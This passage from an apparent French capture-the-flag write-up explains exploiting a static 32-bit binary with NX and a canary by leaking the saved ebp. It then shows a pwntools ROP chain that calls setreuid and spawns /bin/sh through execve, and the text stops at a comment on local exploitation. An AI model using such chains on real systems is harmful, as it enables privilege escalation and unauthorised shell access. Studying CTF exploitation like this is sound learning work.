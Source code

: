 Mon objectif d'exploitation consiste donc avant tout à faire fuiter l'adresse du saved ebp. Par la suite cette adresse me servira de référence pour calculer les adresses où je veux écrire telles que :

- le compteur à saved ebp - 600

- l'adresse de retour à saved ebp - 60

Le binaire est NX + Canary avec la stack randomisée donc il faut utiliser des ROPs. Comme il est aussi statique il n'y a pas de GOT (donc pas de possibilité de remplacer une adresse de fonction par une autre).

Avec `nm -a` on peut voir tous les symboles dans le binaire mais `system` n'en fait pas partie. On pourrait penser qu'un programme compilé statiquement incorpore bêtement la libc mais même en cherchant la fonction `system` via les opcodes qui devraient la composer je ne l'ai pas retrouvé.

Comme mes skills pour trouver un *stack-pivot* (c'est à dire faire pointer esp vers une stack-frame qu'on aurait créé de toute pièce) ne sont pas au point, je place simplement mon ROP sur l'adresse de retour et ce qui se trouve après et je laisse esp suivre son cours naturel.

## Hammer time

```python
import re
import struct
from pwn import *

ropchain = [
    # setreuid(1003, 1003) by me
    0x080540cd, # pop ecx ; pop ebx ; ret
    1003,
    1003,
    0x080a87d6, # pop eax ; ret
    70, # setreuid syscall number (ref https://x86.syscall.sh/)
    0x08054820, # int 80 ; ret <- trouvé avec ROPgadget via une recherche d'opcodes

    # ropchain generated by ROPgadget that I slightly
    # improved as readline allows null bytes
    0x080540a6, # pop edx ; ret
    0x080ca080, # @ .data
    0x080a87d6, # pop eax ; ret
    struct.unpack("<I", b"/bin")[0],
    0x080797d1, # mov dword ptr [edx], eax ; ret
    0x080540a6, # pop edx ; ret
    0x080ca084, # @ .data + 4
    0x080a87d6, # pop eax ; ret
    struct.unpack("<I", b"//sh")[0],
    0x080797d1, # mov dword ptr [edx], eax ; ret
    0x080540a6, # pop edx ; ret
    0x080ca088, # @ .data + 8
    0x0809807f, # xor eax, eax ; ret
    0x080797d1, # mov dword ptr [edx], eax ; ret
    0x080540ce, # pop ebx ; ret
    0x080ca080, # @ .data
    0x080540cd, # pop ecx ; pop ebx ; ret
    0x080ca088, # @ .data + 8
    0x080ca080, # padding without overwrite ebx
    0x080540a6, # pop edx ; ret
    0x080ca088, # @ .data + 8
    0x080a87d6, # pop eax ; ret
    11, # execve syscall number
    0x08048bdd, # int 0x80
]

# Switch to "process" instructions for local exploitation
```